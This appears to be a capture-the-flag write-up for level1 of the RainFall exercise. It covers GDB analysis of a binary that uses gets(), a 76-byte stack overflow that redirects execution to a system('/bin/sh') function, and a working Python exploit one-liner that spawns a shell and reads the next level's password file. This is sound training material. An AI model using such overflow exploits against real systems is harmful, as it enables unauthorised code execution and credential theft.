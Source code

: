 # level1

## exploring the binary
```shell
level1@RainFall:~$ ./level1

level1@RainFall:~$ ./level1
phantom
```
After execution, the program waits for input and then terminates.

## GDB analysis
```shell
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
```
The main functions calls <code>gets()</code> functions which reads the input. No other functions are called, so we explore out options.
```shell
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```
There is a function <code>run()</code> which could potentially be our way to level2.
```shell
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave
   0x0804847f <+59>:	ret
End of assembler dump.
```
Call to <code>system()</code> supports this theory. We can use the common buffer overflow exploit to access the <code>run()</code> function and trigger the <code>/bin/sh</code> of level2.

## buffer overrun attack
To find the offset, we can use an online tool ([Wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)).
``` shell
level1@RainFall:~$ echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa...Ag2Ag3Ag4Ag5Ag" > /tmp/pattern
level1@RainFall:~$ gdb ./level1
(gdb) run < /tmp/pattern
Starting program: /home/user/level1/level1 < /tmp/pattern
```
This way, we find out that <u>the offset is 76</u>. By replacing the return address value with the memory address of the <code>run()</code> function, we can manipulate the program flow to ensure its execution.
``` shell
(gdb) p run
$1 = {<text variable, no debug info>} 0x8048444 <run>
```
To ensure that the memory address is represented correctly in the payload, we need to use the little-endian format:
``` shell
\x44\x84\x04\x08
```
When using Python, we can achieve the same result by reversing the order of the bytes:
``` shell
\x08\x04\x84\x44[::-1]
```

## exploit
``` shell
level1@RainFall:~$ python -c 'print "F" * 76 + "\x08\x04\x84\x44"[::-1]' > /tmp/flag1
level1@RainFall:~$ cat /tmp/flag1 - | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
